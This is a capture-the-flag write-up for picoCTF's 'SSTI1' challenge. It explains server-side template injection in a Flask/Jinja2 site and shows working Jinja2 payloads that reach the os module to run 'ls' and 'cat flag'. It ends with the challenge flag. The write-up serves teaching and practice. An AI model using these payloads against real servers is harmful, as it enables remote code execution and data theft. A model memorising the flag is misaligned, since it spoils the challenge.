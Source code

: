 ```yaml
---
layout: post
title: "SSTI1"
date: 2025-08-05
categories: [PicoCTF, webexploitation]
tags: [picoctf, webexploitation,Easy]
---
```



# 🧠 Challenge Name: **SSTI**

## 📝 Description
**I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps!**

---

## 🤔 What is SSTI?

**SSTI (Server-Side Template Injection)** occurs when user input is insecurely embedded into a server-side template.  
This allows an attacker to **inject template code** and potentially execute arbitrary code on the server.

---

## 🧭 Step-by-Step Approach

### 1. **Open the Website**
Go to the challenge URL and observe how it behaves.

### 2. **Test User Input**
Type something in the search bar. You'll see that it **echoes back** exactly what you typed.  
➡️ This is a sign of **SSTI (Server-Side Template Injection)**.

---

### 3. **Identify the Backend Technology**
Use this command in your terminal:

```bash
curl -i http://rescued-float.picoctf.net:53913/
```

**Sample Output:**
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Tue, 05 Aug 2025 15:04:50 GMT
Content-Type: text/html; charset=utf-8
```

➡️ This tells us the backend is likely using **Flask** with **Jinja2** (common in Python apps).

---

### 4. **Test for Template Injection**

Try injecting a basic expression:

```jinja2
{% raw %}{{7*7}}{% endraw %}
```

➡️ If the result is `49`, it confirms the input is evaluated by a **template engine** (like Jinja2), which means **SSTI exists**.

---

### 5. **Exploit SSTI to Read Server Files**

Try this in the search bar:

```jinja2
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}{% endraw %}
```

This command lists files in the server directory. If you see a file like `flag`, continue to the next step.

---

### 6. **Read the Flag**

Now run this to get the flag:

```jinja2
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}{% endraw %}
```

✅ This prints the contents of the `flag` file on the website.

---

## 🧠 Payload Explanation

```jinja2
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}{% endraw %}
```

- `config`: a Flask object.
- `.__class__`: gets its class.
- `.__init__.__globals__`: accesses global variables (like imports).
- `['os']`: gets access to the `os` module.
- `.popen('cat flag').read()`: runs the `cat flag` command and reads the result.

This is **Remote Code Execution** through **SSTI** in a Python web app.

---

## 🚨 Real-World Impact

SSTI vulnerabilities are dangerous — if not mitigated, they allow attackers to **execute arbitrary code on the server**, potentially leading to full system compromise.

Always validate and sanitize user input in server-side template engines.

---

## 🏁 Result

**picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}**

---